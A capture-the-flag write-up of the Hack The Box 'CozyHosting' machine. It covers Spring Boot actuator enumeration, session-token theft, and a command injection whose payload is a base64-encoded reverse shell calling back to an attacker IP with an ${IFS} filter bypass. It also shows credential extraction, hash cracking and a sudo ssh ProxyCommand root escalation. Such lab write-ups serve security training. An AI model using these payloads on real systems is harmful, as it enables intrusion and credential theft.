 ```yaml
---
layout: post_1
title: "CozyHosting - HTB"
date: 2024-03-02
---
```


# HTB CozyHosting Write Up
![HTB CozyHosting](/assets/2024-03-02-writeups-cozyhosting-htb/machine_info.png "HTB CozyHosting")


## Introduction
Cozy Hosting is a cloud server provider company, which offer multiple management tools.

## Network Scan

<details>
<summary><b>Nmap scan result</b></summary>
<div markdown="1">
~~~
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4356bca7f2ec46ddc10f83304c2caaa8 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEpNwlByWMKMm7ZgDWRW+WZ9uHc/0Ehct692T5VBBGaWhA71L+yFgM/SqhtUoy0bO8otHbpy3bPBFtmjqQPsbC8=
|   256 6f7a6c3fa68de27595d47b71ac4f7e42 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHVzF8iMVIHgp9xMX9qxvbaoXVg1xkGLo61jXuUAYq5q
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~
</div>
</details>

## Investigation
First, when we look at the port scan result we can see a usual web server infrastructure that exposes SSH to further management.  
It is using nginx as a reverse proxy and it redirects HTTP requests to http://cozyhosting.htb.  
![CozyHosting website](/assets/2024-03-02-writeups-cozyhosting-htb/cozyhosting_website.png "CozyHosting website")

The main website contains a login page that doesn't allow registration. We perform some basic SQLi tests but none of them worked/crashed.  
![Login Page](/assets/2024-03-02-writeups-cozyhosting-htb/login_page.png "Login Page")

Reverse proxy technologies can forward the request to another server that is running on localhost only.
Sometimes the backend server can return this information on the HTTP Header, which wasn't the case.  
Another way to perform this test is to access an error page, the 404 can be custom-crafted for a better UX than the default nginx error.  
We got the following message  
![Whitelabel Error](/assets/2024-03-02-writeups-cozyhosting-htb/whitelabel_error.png "Whitelabal Error")

This doesn't tell which server is in place, but we can search for the error and find out where it came from.  
A lot of results pointed it out to the [Spring Boot Framework][java-spring-boot].  
Now we know what we are dealing with, we can perform enumeration targeting the framework only.  
A [Hacktricks guide on Spring Actuators][spring-actuators] set us in the right direction.
First we launch a directory scan using a [spring-boot.txt list from SecLists][spring-seclists].
```
$ ffuf -w ~/tools/lists/spring-boot.txt:FUZZ -u http://cozyhosting.htb/FUZZ -H 'Host: cozyhosting.htb'

... SNIP ...

actuator                [Status: 200, Size: 634, Words: 1, Lines: 1]
actuator/env/home       [Status: 200, Size: 487, Words: 13, Lines: 1]
actuator/env            [Status: 200, Size: 4957, Words: 120, Lines: 1]
actuator/env/lang       [Status: 200, Size: 487, Words: 13, Lines: 1]
actuator/env/path       [Status: 200, Size: 487, Words: 13, Lines: 1]
actuator/mappings       [Status: 200, Size: 9938, Words: 108, Lines: 1]
actuator/health         [Status: 200, Size: 15, Words: 1, Lines: 1]
actuator/sessions       [Status: 200, Size: 145, Words: 1, Lines: 1]
actuator/beans          [Status: 200, Size: 127224, Words: 542, Lines: 1]
```

In the `actuator/sessions` we can get a session token for the user `kanderson`.
![Kanderson Session](/assets/2024-03-02-writeups-cozyhosting-htb/kanderson_session.png "Kanderson Session")
Using this token we can login into the cozyhosting.htb website.

The admin dashboard
![Admin dashboard](/assets/2024-03-02-writeups-cozyhosting-htb/admin_dashboard.png "Admin bashboard")

Exploring the dashboard for more information but none was found.

There is a service that enable us to include a host in the automatic patch list.
Now we will the service using placeholder values.
```
$ curl -vv -X POST http://cozyhosting.htb/executessh -H 'Cookie: JSESSIONID=60624E501F34D4469CFBE1CD53AF3273' --data 'username=user&host=host'
... SNIP ...
< HTTP/1.1 302 
< Server: nginx/1.18.0 (Ubuntu)
< Content-Length: 0
< Location: http://cozyhosting.htb/admin?error=ssh: Could not resolve hostname host: Temporary failure in name resolution
... SNIP ...

```

Then, test for command injection
```
$ curl -vv -X POST http://cozyhosting.htb/executessh -H 'Cookie: JSESSIONID=60624E501F34D4469CFBE1CD53AF3273' --data 'username=;user&host=host'
... SNIP ...
< Location: http://cozyhosting.htb/admin?error=usage: ssh [-46AaCfGgKkMNnqsTtVvXxYy] [-B bind_interface]           [-b bind_address] [-c cipher_spec] [-D [bind_address:]port]           [-E log_file] [-e escape_char] [-F configfile] [-I pkcs11]           [-i identity_file] [-J [user@]host[:port]] [-L address]           [-l login_name] [-m mac_spec] [-O ctl_cmd] [-o option] [-p port]           [-Q query_option] [-R address] [-S ctl_path] [-W host:port]           [-w local_tun[:remote_tun]] destination [command [argument ...]]/bin/bash: line 1: user@host: command not found
... SNIP ...
```

At this moment we know that the server is executing the ssh command which has a basic syntax of `ssh USERNAME@HOSTNAME`.
We can build a reverse shell command.
In the following test we found that there is a whitespace filter on the username field.  
To bypass the filter we can use ${IFS} instead of spaced and execute our reverse shell.  
```
$ curl -vv -X POST http://cozyhosting.htb/executessh -H 'Cookie: JSESSIONID=60624E501F34D4469CFBE1CD53AF3273' --data 'username=;echo${IFS}YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC4xMTEvNTU1NSAwPiYxCg==${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash;&host=host'

```

### User app
The shell is executed as the user `app` on /app dir
```
uid=1001(app) gid=1001(app) groups=1001(app)
```

Users with shell:
```
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
app:x:1001:1001::/home/app:/bin/sh
josh:x:1003:1003::/home/josh:/usr/bin/bash

```

The Cozyhosting app is /app/cloudhosting-0.0.1.jar
Check running processes to see if any variable was passed as Parameter
```
$ ps aux
... SNIP ...
/usr/bin/java -jar cloudhosting-0.0.1.jar
... SNIP ...

```

We can decompile it with jadx and search for passwords. We found two hardcoded passwords, one for kanderson and another for postgresql.
```
kanderson:
    username=kanderson&password=MRdEQuv6~6P9

postgres:
    spring.datasource.username=postgres
    spring.datasource.password=Vg&nvzAQ7XxR
```

Both of these passwords aren't reused.

In the postgresql database, we can search for more password hashes and test again for password reuse.
```
postgres=# \l
                                   List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges   
-------------+----------+----------+-------------+-------------+-----------------------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
(4 rows)

```

Dumping users on cozyhosting
```
postgres=# \c cozyhosting
... SNIP ...
cozyhosting=# \dt
         List of relations
 Schema | Name  | Type  |  Owner   
--------+-------+-------+----------
 public | hosts | table | postgres
 public | users | table | postgres
(2 rows)
cozyhosting=# select * from users;
   name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)

```

The admin hash was cracked with hashcat
```
$ hashcat -a 0 -m 3200 admin.hash ~/Downloads/rockyou.txt
... SNIP ...
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited
... SNIP ...

```

The password was reused for user `josh`.

### User josh
```
uid=1003(josh) gid=1003(josh) groups=1003(josh)
```

Checking for sudo commands:
```
$ sudo -l
... SNIP ...
User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *

```

We can use the [GTFOBins SSH guide][gtfobins-ssh] to gain root access
```
$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# id
uid=0(root) gid=0(root) groups=0(root)

```

[java-spring-boot]: <https://spring.io/projects/spring-boot> "Spring Boot"
[spring-actuators]: <https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/spring-actuators> "Spring Actuators"
[spring-seclists]: <https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/spring-boot.txt> "SecLists Spring"
[gtfobins-ssh]: <https://gtfobins.github.io/gtfobins/ssh/> "gtfobins-ssh"
